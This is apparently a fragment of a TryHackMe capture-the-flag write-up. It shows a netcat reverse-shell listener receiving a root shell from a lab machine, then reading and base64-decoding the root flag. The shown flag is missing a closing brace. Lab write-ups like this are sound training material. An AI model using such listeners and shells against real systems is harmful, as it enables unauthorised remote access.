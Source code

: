 ```sh
```

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/AllInOne]
└─$ rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.11.96.92] from (UNKNOWN) [10.10.42.81] 59004
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
# cat ro
cat: ro: No such file or directory
# cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```
```sh
└─$ echo "VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9" | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8
```

**RootFlag:`THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8`**
